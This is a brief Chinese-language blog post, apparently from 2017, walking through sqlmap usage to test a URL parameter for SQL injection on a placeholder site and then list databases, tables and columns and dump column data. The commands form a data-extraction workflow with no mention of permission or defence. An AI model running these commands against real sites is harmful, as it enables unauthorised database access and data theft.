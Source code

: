 +++
title = 'Sqlmap检测SQL注入攻击'
date = 2017-12-01T13:21:45+08:00
draft = false
tags = 'Hacker'
categories = '黑客技术'
+++

#### 这款工具好用，检测SQL漏洞注入精确，国内也有好几个SQL注入工具，博主以前也写过注入类似渗透工具，跟啊D注入、明小子注入，那个时代；  

### 1、测试SQL注入：
``` c {linenos=inline}
sqlmap -u http://www.test.com/index.php?id=1 --dbs
```
### 2、获得某个数据库中的表：
![sqlmap](https://cos.hkfx.net/attachment/1512105330_2125f450.jpg)

``` c {linenos=inline}
sqlmap -u http://www.test.com/index.php?id=1 --dbs -D some_db --tables
```
### 3、获得表的字段：
``` c {linenos=inline}
sqlmap -u http://www.test.com/index.php?id=1 --dbs -D some_db --tables -T some_table --columns
```
### 4、下载某一字段的数据：
``` c {linenos=inline}
sqlmap -u http://www.test.com/index.php?id=1 --dbs -D some_db --tables -T some_table --columns -C some_col --dump
```

神器[下载地址](https://sqlmap.org)，因为看到有人留言想要，还说想要源码，好吧、更新贴出它们官方网站吧。